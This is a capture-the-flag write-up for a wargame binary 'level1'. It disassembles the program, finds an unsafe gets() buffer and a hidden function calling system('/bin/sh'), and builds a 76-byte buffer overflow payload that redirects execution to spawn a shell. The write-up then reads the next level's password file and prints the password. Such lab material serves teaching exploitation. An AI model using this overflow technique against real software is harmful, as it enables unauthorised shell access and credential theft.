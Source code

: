 The executable found in level1 once runned waits for some input, once we pass it
any random input less than 76 bytes long the program just returns.
Disassebling the code we set a brak point in main() and we can see that the ESP is set by
sub 	ESP, 0X50 ; this make a total of 80 bytes, next we see LEA (load effective address)
to `EAX[ESP+0X10]` if we add this to stack  pointer we get 80-16 what gives us 64, so we  know
this is the address for the gets() function that comes after setting this address.
Unfortunately we can not use nm here to check for more details, but we still can use
objdump -d(display assembler mnemonics for the machine instructions) level1 and it will
give us two interesting function from this executable <system@plt> and <run>.
Now lets disassembly the run() function and see what we  get, we can try to examine some
addresses found in the run() function
$ x/s 0x8048570
0x8048570:	 "Good... Wait what?\n"
What is that? not really interesting stuff, then we see a call to <fwrite@plt> and just after
that we have another address being set to ESP, let's check
$ x/s 0x8048584
0x8048584:	 "/bin/sh"
Oh this is very interesting, and just after that we have a call to <system@plt>
We know now we need a way to execute this fucntion, we have some crucial information here, we
know that there is an address with a len of 64 bytes that will  store the input from gets, 
we know gets() is not secure, that we can pass anything to it and we know the address of the 
run() function <0x08048444>
We need to overflow the stack filling it with any sort character we want, and just before the
return address in main we should fill it with the address of the run() function.
(Bear in mind that 0x86 has little-endian architecture, remember 'little end first' so the address 0x08048444 becomes 0x44840408 ) 
We can go to [buffer-overflow-generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to find the offset
past the code generated from this website once running level1 then copy the address return with the segfault
return to the website and get the of 76

write the payload: (for permission reason create it in /tmp)
python -c "print 'A' * 76 + '\x44\x84\x04\x08'" > /tmp/buffer
(if you don't give '-' option to cat the segfault will quit and we can not get controll of the shel
giving this option will keeps the standard entry open so we can execute the command in the new opened shell to get the flag)
~$ cat /tmp/buffer - | ./level1 
Good... Wait what?

cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
Segmentation fault (core dumped)

we can also use: <br>
`(python -c "print 'A' * 76 + '\x44\x84\x04\x08'"; cat)  | ./level1`
